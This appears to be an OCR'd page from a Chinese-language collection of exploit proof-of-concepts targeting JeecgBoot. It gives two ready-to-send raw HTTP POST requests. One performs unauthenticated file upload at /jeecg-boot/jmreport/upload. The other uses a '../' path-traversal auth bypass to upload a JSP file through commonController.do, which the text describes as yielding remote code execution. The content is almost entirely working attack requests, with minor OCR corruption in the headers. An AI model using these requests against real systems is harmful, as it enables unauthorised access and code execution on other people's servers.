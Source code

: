   
## jeecg-boot/jmreport/upload接口存在未授权任意文件上传  

```
测试发现/jeecg-boot/jmreport/upload接口存在未授权任意文件上传，经实测发现上传接口未授权，但访问上传后的文件需要登录，即带token。
POST /jeecg-boot/jmreport/upload HTTP/1.1
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; http://www.baidu.com/search/spider.html)
Accept: */*
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyfyhSCMs9cajzFD4
Cache-Control: no-cache
Pragma: no-cache
Host: 
Content-Length: 1476
------WebKitFormBoundaryyfyhSCMs9cajzFD4
Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;11111.txt&#34;
Content-Type: text/html
<%! 1111>
------WebKitFormBoundaryyfyhSCMs9cajzFD4
Content-Disposition: form-data; name=&#34;fileName&#34;
11111.txt
------WebKitFormBoundaryyfyhSCMs9cajzFD4
Content-Disposition: form-data; name=&#34;biz&#34;
excel_online
------WebKitFormBoundaryyfyhSCMs9cajzFD4--
```

  
## Jeecg-commonController.do文件上传  

```
由于 /api 接口鉴权时未过滤路径遍历，攻击者可构造包含 ../ 的url绕过鉴权。攻击者可构造恶意请求利用 commonController 接口进行文件上传攻击实现远程代码执行。
POST /jeecg-boot/api/../commonController.do?parserXml HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Length: 360
User-Agent: Mozilla/2.0 (compatible; MSIE 3.01; Windows 95
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygcflwtei
Connection: close
------WebKitFormBoundarygcflwtei
Content-Disposition: form-data; &#34;name=&#34;name&#34;
zW9YCa.png
------WebKitFormBoundarygcflwtei
ontent-Disposition: form-data; name=&#34;documentTitle&#34;
blank
------WebKitFormBoundarygcflwtei
Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;zW9YCa.jsp&#34;
Content-Type: image/png
11111
------WebKitFormBoundarygcflwtei--
```
